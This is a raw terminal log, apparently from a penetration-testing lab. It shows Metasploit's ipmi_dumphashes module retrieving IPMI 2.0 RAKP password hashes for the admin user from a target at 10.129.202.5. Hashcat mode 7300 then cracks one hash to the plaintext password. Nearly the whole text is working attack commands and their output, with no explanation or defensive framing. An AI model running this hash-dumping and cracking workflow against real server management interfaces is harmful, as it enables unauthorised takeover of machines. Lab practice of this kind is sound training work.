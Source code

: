                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole
[sudo] password for kali: 
Metasploit tip: Writing a custom module? After editing your module, why not try 
the reload command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.5-dev                           ]
+ -- --=[ 2413 exploits - 1242 auxiliary - 423 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search ipmi

Matching Modules
================

   #   Name                                                                Disclosure Date  Rank    Check  Description
   -   ----                                                                ---------------  ----    -----  -----------
   0   auxiliary/scanner/ipmi/ipmi_cipher_zero                             2013-06-20       normal  No     IPMI 2.0 Cipher Zero Authentication Bypass Scanner
   1   auxiliary/scanner/ipmi/ipmi_dumphashes                              2013-06-20       normal  No     IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval
   2   auxiliary/scanner/ipmi/ipmi_version                                 .                normal  No     IPMI Information Discovery
   3   exploit/multi/upnp/libupnp_ssdp_overflow                            2013-01-29       normal  No     Portable UPnP SDK unique_service_name() Remote Code Execution
   4     \_ target: Automatic                                              .                .       .      .
   5     \_ target: Supermicro Onboard IPMI (X9SCL/X9SCM) Intel SDK 1.3.1  .                .       .      .
   6     \_ target: Axis Camera M1011 5.20.1 UPnP/1.4.1                    .                .       .      .
   7     \_ target: Debug Target                                           .                .       .      .
   8   auxiliary/scanner/http/smt_ipmi_cgi_scanner                         2013-11-06       normal  No     Supermicro Onboard IPMI CGI Vulnerability Scanner
   9   auxiliary/scanner/http/smt_ipmi_49152_exposure                      2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
   10  auxiliary/scanner/http/smt_ipmi_static_cert_scanner                 2013-11-06       normal  No     Supermicro Onboard IPMI Static SSL Certificate Scanner
   11  exploit/linux/http/smt_ipmi_close_window_bof                        2013-11-06       good    Yes    Supermicro Onboard IPMI close_window.cgi Buffer Overflow
   12  auxiliary/scanner/http/smt_ipmi_url_redirect_traversal              2013-11-06       normal  No     Supermicro Onboard IPMI url_redirect.cgi Authenticated Directory Traversal


Interact with a module by name or index. For example info 12, use 12 or use auxiliary/scanner/http/smt_ipmi_url_redirect_traversal

msf6 > 1
[-] Unknown command: 1. Run the help command for more details.
msf6 > use 1
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                                                                                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_HASHCAT_FILE ~/ipmi_hash
OUTPUT_HASHCAT_FILE => ~/ipmi_hash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.129.202.5
RHOSTS => 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.202.5:623 - IPMI - Hash found: admin:e6c746ea82000000d079cfd44dc156a34e6bdc74df132e1bdc8a957aaaab46b71308ca7bd5b779c8a123456789abcdefa123456789abcdef140561646d696e:c6ddb1452e1432b88ee2c9b24ed493259c5bc4a8
[*] Error: 10.129.202.5: Errno::ENOENT No such file or directory @ rb_sysopen - ~/ipmi_hash
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_HASHCAT_FILE ipmi_hash
OUTPUT_HASHCAT_FILE => ipmi_hash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.202.5:623 - IPMI - Hash found: admin:d026151682010000af5221e979981fa41114ed34ccbe0fb599a8cfeb4c129c7c73be8fffa1bdad54a123456789abcdefa123456789abcdef140561646d696e:d0c301401527b8e1d03a2d05564b0fa9d372d4fe
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) >                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 7300 ipmi_hash.txt Downloads/rockyou-40.txt --username
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-7500 CPU @ 3.40GHz, 4099/8263 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: Downloads/rockyou-40.txt
* Passwords.: 3957
* Bytes.....: 31220
* Keyspace..: 3957
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

d026151682010000af5221e979981fa41114ed34ccbe0fb599a8cfeb4c129c7c73be8fffa1bdad54a123456789abcdefa123456789abcdef140561646d696e:d0c301401527b8e1d03a2d05564b0fa9d372d4fe:trinity
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: d026151682010000af5221e979981fa41114ed34ccbe0fb599a...72d4fe
Time.Started.....: Sun May 19 05:49:03 2024 (0 secs)
Time.Estimated...: Sun May 19 05:49:03 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Downloads/rockyou-40.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1941.1 kH/s (1.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3957/3957 (100.00%)
Rejected.........: 0/3957 (0.00%)
Restore.Point....: 0/3957 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> maddie1
Hardware.Mon.#1..: Util: 17%

Started: Sun May 19 05:49:02 2024
Stopped: Sun May 19 05:49:05 2024
